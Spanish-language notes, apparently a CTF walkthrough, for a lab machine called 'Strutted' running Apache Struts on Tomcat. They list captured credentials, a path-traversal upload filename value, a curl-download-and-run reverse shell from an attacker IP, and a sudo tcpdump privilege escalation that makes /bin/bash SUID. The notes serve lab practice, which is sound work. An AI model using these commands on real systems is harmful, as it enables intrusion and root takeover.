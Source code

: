 # Strutted - TryHackMe

**IP:** 10.10.11.59

## Stack Tecnológico
- Apache Struts
- Tomcat
- Java (OpenJDK)
- Docker

## Credenciales encontradas
- admin : skqKY6360z
- james : IT14d6SSP81k (SSH)

## Vector de Explotación
- Modificación de campo `top.uploadFileName`:
  ```
  ../../test.asp
  ```

## Reverse Shell
```bash
curl 10.10.15.53 -o /tmp/reverse
bash /tmp/reverse
```

## Escalada de Privilegios
```bash
COMMAND='chmod 4777 /bin/bash'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
bash -p
```
